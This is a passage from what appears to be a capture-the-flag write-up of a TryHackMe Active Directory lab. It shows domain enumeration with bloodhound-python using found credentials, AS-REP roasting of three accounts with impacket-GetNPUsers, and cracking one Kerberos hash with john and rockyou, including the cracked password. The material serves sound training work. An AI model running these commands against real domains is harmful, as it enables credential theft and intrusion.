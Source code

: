 ## Bloodhound enumeration

Now with thid found credentials we can enumerate the domain with Bloodhound.

{% code overflow="wrap" %}
```bash
bloodhound-python -c all -ns 10.10.184.120 -dc HayStack.thm.corp -d thm.corp --zip -u 'AUTOMATE' -p 'Passw0rd1'
```
{% endcode %}

### AS-REP Roastable users dump tgt

Get the AS-REP reastable user from Bloodhound query:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get the TGT of these users with impacket:

```bash
impacket-GetNPUsers THM/LEANN_LONG -dc-ip 10.10.184.120 -dc-host thm.corp -no-pass
impacket-GetNPUsers THM/TABATHA_BRITT -dc-ip 10.10.184.120 -dc-host thm.corp -no-pass
impacket-GetNPUsers THM/ERNESTO_SILVA -dc-ip 10.10.184.120 -dc-host thm.corp -no-pass
```

Put all output in a file and try to crack them.

```bash
john tgts_ticket.txt --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt

# output
marlboro(1985)   ($krb5asrep$23$TABATHA_BRITT@THM) 
```
